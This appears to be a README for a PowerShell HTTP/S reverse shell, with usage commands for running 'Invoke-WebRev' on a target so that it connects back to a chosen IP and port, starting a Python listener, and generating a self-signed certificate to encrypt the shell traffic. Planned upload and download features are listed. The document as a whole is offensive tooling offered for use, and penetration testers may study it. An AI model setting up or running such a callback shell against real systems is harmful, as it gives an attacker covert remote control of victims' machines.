

# Powershell HTTP/S Reverse Shell

## clientHTTP_shell.ps1 - client

On your client:
```
Invoke-WebRev -ip IP -port PORT
Invoke-WebRev -ssl -ip IP -port PORT
```

##  server.py - server



On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

# Future features
    - Upload function
    - Download function
